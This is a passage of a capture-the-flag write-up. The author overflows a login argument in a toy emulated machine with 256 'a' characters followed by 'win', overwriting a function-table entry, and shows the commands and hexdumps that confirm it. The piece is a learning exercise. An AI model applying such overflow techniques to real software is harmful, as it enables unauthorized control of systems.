 We see that the login command argument we passed is been stored in the memory address

At this point what i then did was to overwrite any real function and replace with win.

How can this be achieved ?

Well by passing in junkdata +win

So I did that on my terminal to create a's' ("a"*256 + "win"), how i knew to use a*256 was by calculating the amount of bytes needed to reach the echo function in the memory address' 

```                                                                                                        
┌──(mark㉿haxor)-[~/…/CTF/Sabr/misc/complexmachine]
└─$ python2 -c 'print"a"*256+"win"'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawin                                                                           
```

Now using that as the argument to login 

```
#> login aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawin
Invalid password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawin !
#> 
```

Now on checking the memory address we see that the echo function has been overwritten by win

```
#> mem
00000000: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000010: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000020: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000030: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000040: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000050: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000060: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000070: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000080: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000090: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000A0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000B0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000C0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000D0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000E0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
000000F0: 61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa
00000100: 77 69 6E 00 00 00 00 00  00 00 00 00 00 00 00 00  win.............
00000110: 73 74 72 72 65 76 65 72  73 65 00 00 00 00 00 00  strreverse......
00000120: 72 61 6E 64 73 74 72 69  6E 67 00 00 00 00 00 00  randstring......
00000130: 73 74 72 74 6F 68 65 78  00 00 00 00 00 00 00 00  strtohex........
00000140: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000150: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000160: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000170: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000180: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000190: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001A0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001B0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001C0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001D0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001E0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000001F0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
#> 
```